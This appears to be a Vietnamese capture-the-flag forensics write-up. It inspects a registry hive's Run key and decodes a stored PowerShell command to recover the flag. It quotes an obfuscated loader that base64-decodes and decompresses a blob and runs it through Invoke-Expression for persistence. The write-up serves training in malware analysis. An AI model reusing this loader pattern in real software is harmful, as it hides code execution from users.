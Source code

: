 Đề cho một file `NTUSER.DAT`, mở file xem thì thấy là một file registry
![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-07-10%20200108.png)

Sử dụng tool RegistryExplorer để mở tệp. Mình load hive và tìm đến path `Software\Microsoft\Windows\CurrentVersion\Run` để các câu lệnh được thực thi

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-07-10%20200634.png)

Đây là đoạn script trong value

```powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" "(neW-obJEct io.COMprEssIon.dEFlATesTReAm( [sySTem.IO.memorYSTREam] [coNVeRT]::FRoMBAse64stRInG( 'TVFva4JAGP8qh7hxx/IwzbaSBZtsKwiLGexFhJg+pMs09AmL6rvP03S9uoe739/nZD+OIEHySmwolNn6F3wkzilH2HEbkDupvwXM+cKaWxWSSt2Bxrv9F64ZOteepU5vYOjMlHPMwNuVQnItyb8AneqOMnO5PiEsVytZnHkJUjnvG4ZuXB7O6tUswigGSuVI0Gsh/g1eQGt8h6gdUo98CskGQ8aIkgBR2dmUAw+9kkfvCiiL0x5sbwdNlQUckb851mTykfhpECUbdstXjo2LMIlEE0iCtedvhWgER1I7aKPHLrmQ2QGVmkbuoFoVvOE9Eckaj8+26vbcTeomqptjL3OLUM/0q1Q+030RMD73MBTYEZFuSmUMYbpEERduSVfDYZW8SvwuktJ/33bx/CeLEGirU7Zp52ZpLfYzPuQhZVez+SsrTnOg7A8='), [SYSTEM.iO.ComPReSSion.CoMPrEsSIonmODe]::DeCOmpresS)|FOREAcH-object{ neW-obJEct io.streAMrEadeR( $_,[sysTem.TExt.EnCoDING]::asCIi )}).reaDToEnD()|inVOKe-exprEsSIon
```
Đọc qua thì thấy câu lệnh trên giải mã base64 và deflate chuỗi trên và thực thi câu lệnh sau khi giải mã. Mình dùng Cyperchef để làm tương tự 

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-07-10%20201249.png)

Tìm được Flag: `CHH{N0_4_go_n0_st4r_wh3r3}`


